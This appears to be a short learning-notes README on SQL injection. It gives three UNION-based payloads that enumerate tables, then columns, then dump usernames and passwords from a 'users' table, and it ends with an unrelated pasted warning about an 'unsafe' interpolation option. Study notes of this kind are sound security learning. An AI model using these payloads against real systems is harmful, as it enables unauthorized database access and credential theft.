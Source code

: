# Learning SQL Injection

Just taking some notes about different SQL Injections.

#### This will display the tables
```
id=0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = database()--
```
#### This will display the columns from the selected table
```
id=0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'users'--
```
#### This will display the username and password
```
id=0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM users
```
##### Example
> ⚠️ **Warning**
>
> The `unsafe` option interprets the interpolated values as literals and it should be used carefully to avoid introducing SQL injection vulnerabilities.
